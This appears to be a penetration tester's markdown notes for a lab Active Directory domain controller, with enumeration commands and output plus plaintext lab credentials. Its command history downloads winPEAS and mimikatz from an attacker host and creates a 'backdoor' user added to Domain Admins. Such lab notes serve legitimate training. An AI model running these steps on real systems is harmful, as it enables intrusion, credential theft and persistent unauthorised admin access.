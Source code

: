 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- C:\local.txt
- C:\Users\Administrator\Desktop\proof.txt

# Accounts
### skylark\helpdesk_setup / Tuna6Helper
` `   
`whoami /priv`
```
Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 10.10.164.250 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-23 02:51:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SKYLARK.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SKYLARK.com0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- <IP>`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```
===========================================================================
Interface List
 15...00 50 56 bf e0 7e ......vmxnet3 Ethernet Adapter
  1...........................Software Loopback Interface 1
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0    10.10.164.254    10.10.164.250     16
      10.10.164.0    255.255.255.0         On-link     10.10.164.250    271
    10.10.164.250  255.255.255.255         On-link     10.10.164.250    271
    10.10.164.255  255.255.255.255         On-link     10.10.164.250    271
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link     10.10.164.250    271
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
  255.255.255.255  255.255.255.255         On-link     10.10.164.250    271
===========================================================================
Persistent Routes:
  Network Address          Netmask  Gateway Address  Metric
          0.0.0.0          0.0.0.0    10.10.164.254       1
===========================================================================

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    331 ::1/128                  On-link
  1    331 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None
```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
rdesktop -d skylark -u helpdesk_setup -p Tuna6Helper 10.10.164.250

curl http://192.168.45.186/winPEASx64.exe -o winpeas.exe
curl http://192.168.45.186/mimikatz.exe -o mimikatz.exe

run powershell as: Administrator / E2koUInnHx5_nrAjBouE

New-ADUser -Name "backdoor" -SamAccountName "backdoor" -AccountPassword (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "Domain Admins" -Members "backdoor"
Import-Module ActiveDirectory

//create domain admin?

Get-ADComputer -Filter * -Property Name, IPv4Address | Select-Object Name, IPv4Address
    Name      IPv4Address
    ----      -----------
    LAB       10.10.164.11
    ARCHIVE   10.10.164.12
    MAIL      10.10.164.13
    //HOUSTON01 10.10.164.240
    DC        10.10.164.250
    //AUSTIN02  10.10.164.254

    CLIENT02  10.20.10.111
    PREPROD   10.20.10.15
    CLIENT01  10.20.164.110
```